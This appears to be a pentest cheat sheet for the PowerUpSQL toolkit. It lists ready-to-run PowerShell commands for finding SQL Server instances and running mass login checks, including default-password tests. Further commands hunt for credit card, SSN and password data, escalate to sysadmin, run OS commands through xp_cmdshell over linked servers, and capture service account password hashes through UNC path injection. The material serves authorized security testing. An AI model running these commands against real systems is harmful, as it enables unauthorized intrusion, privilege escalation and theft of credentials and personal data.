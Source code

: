 Below is a list of some of the most common PowerUpSQL functions used during pentests.

## SQL Server Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>or<br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain SQL Server Instance using alternative domain credentials|`runas /noprofile /netonly /user:domain\user PowerShell.exe`<br>`Get-SQLInstanceDomain`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`

## SQL Server Login Test Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Get a list of domain SQL servers that can be logged into with a provided SQL Server login|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username testuser -password testpass | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into with the current domain account|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`
|Get a list of domain SQL servers that can be logged into using an alternative domain account | `runas /noprofile /netonly /user:domain\user PowerShell.exe`<Br>`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose -Threads 15`
| Discover domain SQL Servers and determine if they are configured with default passwords used by common applications based on the instance name | `Get-SQLInstanceDomain | Get-SQLServerLoginDefaultPw -Verbose`

## Data Targeting Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Dump common information from server to files|`Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`

## Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to sysadmin | `Invoke-SQLEscalatePriv -Verbose -Instance SQLServer1`
|Execute OS commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|Crawl database links|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1`<br>`Get-SqlCrawl -Verbose -Instance SQLSERVER1\Instance1` 
|Crawl database links and execute query|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "select name from master..sysdatabases"`
|Crawl database links and execute OS command|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"`
|UNC path injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

